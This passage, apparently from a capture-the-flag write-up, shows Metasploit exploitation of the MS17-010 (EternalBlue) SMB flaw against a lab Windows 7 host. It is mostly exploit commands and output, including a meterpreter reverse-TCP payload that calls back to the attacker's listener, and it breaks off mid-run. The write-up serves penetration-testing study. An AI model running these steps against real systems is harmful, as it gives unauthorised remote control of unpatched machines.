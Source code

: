 ```
You can see that the scan shows that the machine is vulnerable to ms17-010. I will be using the expoloit in the 2nd option of the search.
```
msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
```
Again now checking the options available.
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.189.2    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```
setting the rhost.
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.10.40
rhosts => 10.10.10.40
```
Now let it run. The above exploit can even be used on Windows 10. This exploit sometimes doesn't work on the first go. So, keep trying for more than one time.

### Failed Attempt

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.189.2:4444 
[*] 10.10.10.40:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv